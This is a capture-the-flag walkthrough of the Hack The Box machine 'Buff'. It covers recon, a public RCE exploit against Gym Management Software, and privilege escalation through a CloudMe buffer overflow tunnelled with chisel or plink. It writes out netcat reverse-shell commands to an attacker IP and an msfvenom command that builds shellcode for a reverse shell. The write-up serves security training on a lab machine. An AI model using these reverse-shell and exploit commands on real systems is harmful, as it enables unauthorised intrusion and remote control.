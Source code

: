 # Buff
###### tags: `OSCP`
https://www.hackthebox.eu/home/machines/profile/263

First connect to Hack The Box vpn: 
```
openvpn {username}.ovpn
```

Then check your machine IP compare with the log message output from VPN.
![](https://i.imgur.com/fPKAhmL.png)
Seems that my machine is `10.10.14.42`

```
nmap -sS -sV -A -p- -oN NmapBuff.txt 10.10.10.198
```
![](https://i.imgur.com/ECvsnOi.png)

![](https://i.imgur.com/Ousshew.png)

```
dirb http://10.10.10.198:8080
```
![](https://i.imgur.com/auTeah0.png)
With these data, I found the system information on `http://10.10.10.198:8080/contact.php`

![](https://i.imgur.com/baTfEeJ.png)
Here we got some information, `gym management software 1.0`

![](https://i.imgur.com/JmMv7yr.png)
We first use `searchsploit gym` then we found `WordPress Plugin WPGYM - SQL Injecti`.
Aparently, it's not a wordpress framework.

![](https://i.imgur.com/7oBbYHA.png)
Then we search it with exploit-db, and we found gym rce in https://www.exploit-db.com/exploits/48506

![](https://i.imgur.com/V62mZYL.png)
After we save the PoC and try to use the command `gymrce.py http://10.10.10.198:8080/` to run the script.

First, we check the system, use `systeminfo`.
![](https://i.imgur.com/OwXoTfP.png)
Let's try `windows-exploit-suggester`: https://github.com/AonCyberLabs/Windows-Exploit-Suggester
```
curl https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py --output windows-exploit-suggester.py
chmod +x ./windows-exploit-suggester.py
./windows-exploit-suggester.py --update
pip install xlrd --upgrade
```
We get python2 unsupport problem with pip target to python3, copy `xlrd` & `xlrd-1.2.0.dist-info` from `/usr/local/lib/python3.8/dist-packages` to `/usr/local/lib/pythton2.7/dist-packages`

Then copy the result of `systeminfo` in target machine:
```
./windows-exploit-suggester.py --database 2020-11-20-mssb.xls --systeminfo buff-systeminfo.txt 
```
Save list, and it might be used later.


`whoami` to check the user name.
![](https://i.imgur.com/gOoUxlo.png)

`dir` to check the directory.
![](https://i.imgur.com/NzAbeq7.png)

![](https://i.imgur.com/ESrqsRv.png)
Check user on this machine: 
```
dir c:\users\
```

![](https://i.imgur.com/1QQajBT.png)
As we know the user who run xampp with gym management software is called: `shaun`.
Let's check the flag under the `shaun` user folder.

![](https://i.imgur.com/V2mJLyu.png)
Then we can `type` the flag out.

![](https://i.imgur.com/urCwmAX.png)
Here we got the flag.

BUT, it's not the end, we still need to get the root.
So let's try to download checking batch script from: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat

And use `python -m SimpleHTTPServer 8787` or `python3 -m http.server 8787` to allow target machine download the script. 
Then use `curl http://10.10.14.42:8787/winPEAS.bat --output winPEAS.bat` to download the script

Then same, upload `nc.exe` to target machine, the binary should be under `/usr/share/windows-binaries/nc.exe`, copy it to your Python Server folder

```
curl http://10.10.14.42:8787/nc.exe --output nc.exe
```
Download the latest version of plink & chisel, we will use it later.
```
curl http://10.10.14.42:8787/plink.exe --output plink.exe
```
```
curl http://10.10.14.42:8787/chisel.exe --output chisel.exe
```


Before use nc to connect back to your attack machine, start a listener on it.
```
nc -nvlp 8000
```

Then use nc to connect back to attack machine: 
```
nc.exe 10.10.14.42 8000 -e cmd.exe
```
![](https://i.imgur.com/lHZkGqG.png)

Then we launch the `winPEAS.bat`, before use it, read the README of it on github.

After a while search on it, Windows Defender is enable, and cve in windows-exploit-suggester seems not working and be detect by Anti-Virus.
![](https://i.imgur.com/kh7NXqy.png)

I check several folder under `shaun` and find a batch file under `c:\Users\shaun\Documents` called `Tasks.bat`, but seems just a cron job script for last level.
![](https://i.imgur.com/4m5aerQ.png)

Then I found `CloudMe_1112.exe` under `c:\Users\shaun\Downloads`.
![](https://i.imgur.com/gOb0DaW.png)

Let's check is this program running or not with `tasklist /v`
![](https://i.imgur.com/QyOjU02.png)
As you see `N/A`, that might be other User and System Service who run the process.

As we know, there's no other user in this machine (with `dir c:\Users\`, in early-reconing stage)
![](https://i.imgur.com/JXORjgo.png)
The launcher privilege of `CloudMe.exe` might be System.

`wmic process where "name='CloudMe.exe'" get ProcessID, ExecutablePath`
Although, we cannot check if the process really link to the image under `c:\Users\shaun\Downloads`, we can still take it as hint to try with `searchsploit`.
![](https://i.imgur.com/Oi43iHo.png)

![](https://i.imgur.com/M7qTMng.png)
With `searchsploit CloudMe` we get several results.
Let's use `exploits/windows/remote/48389.py`.
![](https://i.imgur.com/aE6o9jW.png)
As we see, it's a python script but python is not installed on target machine.
We need to establish a tunnel to port forwarding the service with chisel.(plink might work, but I always encounting time out here.)

```
# on attack machine
./chisel server --port 9487 --reverse
```
![](https://i.imgur.com/0uPPifC.png)

From PoC, we know that the `CloudMe` work on `8888` by default.
Let's check it with `netstat -an | findstr "LISTENING"`


So let's binding the port `8888`.
```
# on victim machine
.\chisel.exe client 10.10.14.42:9487 R:8888:127.0.0.1:8888
```
![](https://i.imgur.com/BlU6Zl0.png)
(I got ip re-dispatch during by HTB this step, it change to `10.10.14.4`, I will still use `10.10.14.42` for the rest in this write-up)

Then we need to replace the shellcode inside the PoC to let victim return shell back to `10.10.14.42:9527` with the `nc` binary we put in.
```
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe -e cmd.exe 10.10.14.42 9527' -b '\x00\x0a\x0d\x1a\x09' -f py -v payload
```
![](https://i.imgur.com/BGQFcmE.png)
`-b` is bad charaters list, `'\x00', '\x0a', '\x0d', '\x1a', '\x09'` are represented `'\0', '\n', '\r', '\Z' , '\t'` characters.
Use this payload to replace original one in PoC.
Using some text editor will make this step more easier.
![](https://i.imgur.com/nzAOtQw.png)

Before launch the PoC, open a new listener which your payload point to.
```
nc -nvlp 9527
```
![](https://i.imgur.com/eLZv3Ah.png)
Now, we in. Flag is on the `desktop`.

## Method 2
Let's use `plink` we copied with `nc` before to establish the port forwarding.
And also, the exploit shows the default port as 8888.

As we trying to use plink to do the port forwarding, setting the sshd service with folowing:
```
apt purge openssh-server
apt install openssh-server
service ssh start
ss -antlp | grep sshd
```
https://medium.com/@informationsecurity/remote-ssh-tunneling-with-plink-exe-7831072b3d7d

Then we can use `plink` from putty on target now.
```
#old kali version
plink.exe -l root -pw toor 10.10.14.42 -R 8888:127.0.0.1:8888
# new kali version
plink.exe -l kali -pw kali 10.10.14.42 -R 8888:127.0.0.1:8888
```
or
```
# insert info by yourself
plink.exe -ssh root@10.10.14.42 -R 8888:127.0.0.1:8888
```
Remeber to download the latest [`plink`](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) cuz to the old version use old algorithm which not allow `putty` it packed to [`allow the key exchange`](https://www.schrodinger.com/kb/520463).
(becareful, it's putty's plink, not the data analyzing tool plink.)